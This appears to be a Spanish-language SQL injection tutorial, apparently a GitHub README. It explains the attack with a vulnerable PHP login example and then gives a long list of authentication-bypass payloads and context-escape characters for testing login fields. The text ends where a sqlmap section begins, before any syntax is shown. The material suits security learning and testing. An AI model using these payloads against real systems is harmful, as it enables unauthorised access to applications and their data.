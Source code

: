 ## ¿qué es una sqli inyection?

Una SQL Injection es un tipo de ataque que ocurre cuando un atacante es capaz de "inyectar" código SQL malicioso en una consulta que se envía a su base de datos.

👉 En otras palabras: el atacante logra manipular las consultas a la base de datos para que hagan cosas no deseadas, como:

  obtener datos confidenciales,

  modificar o eliminar datos,

  saltarse controles de autenticación,

  ejecutar comandos administrativos en la base de datos.

 ## 📌 ¿Por qué ocurre?

 Sucede cuando una aplicación web no valida correctamente la entrada del usuario antes de usarla en una consulta SQL.

 🔍 Ejemplo sencillo

Supongamos que en una página de login tiene este código en PHP:
```
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```
Si el atacante en el campo password escribe:
```
' OR '1'='1
```
La consulta que se ejecuta es:
```
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
```
Como '1'='1' siempre es verdadero, es posible que el atacante logre iniciar sesión sin conocer la contraseña.


## 🔍 ¿cómo detectamos si tiene esta vulnerabilidad?
Cuando vemos campos a rellenar intentaremos inyectar y veremos la respuesta
lo primero es intentar escapar del contexto actual con:
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```
y luego corregimos la consulta.
podemos automatizarlo con diccionarios como seclist que incluye muchos payloads y atendermos a la respuesta.
las inyecciones más comunes para hacer de forma manual son:
```
" or 1=1
" or 1=1#
" or 1=1--
" or 1=1/*
' or 1=1
' or 1=1#
' or 1=1--
' or 1=1/*
admin" #
admin" --
admin" or "1"="1
admin" or "1"="1"#
admin" or "1"="1"--
admin" or "1"="1"/*
admin" or 1=1
admin" or 1=1#
admin" or 1=1--
admin" or 1=1/*
admin") or "1"="1
admin") or "1"="1"#
admin") or "1"="1"--
admin") or "1"="1"/*
admin") or ("1"="1
admin") or ("1"="1"#
admin") or ("1"="1"--
admin") or ("1"="1"/*
admin"/*
admin"or 1=1 or ""="
admin' #
admin' --
admin' or '1'='1
admin' or '1'='1'#
admin' or '1'='1'--
admin' or '1'='1'/*
admin' or 1=1
admin' or 1=1#
admin' or 1=1--
admin' or 1=1/*
admin') or '1'='1
admin') or '1'='1'#
admin') or '1'='1'--
admin') or '1'='1'/*
admin') or ('1'='1
admin') or ('1'='1'#
admin') or ('1'='1'--
admin') or ('1'='1'/*
admin'/*
admin'or 1=1 or ''='
or 1=1
or 1=1#
or 1=1--
or 1=1/*
```

## 🤖 automatizar el ataque

Podemos automatizar el ataque con herramientas como sqlmap, su sintaxis es la sigueinte:



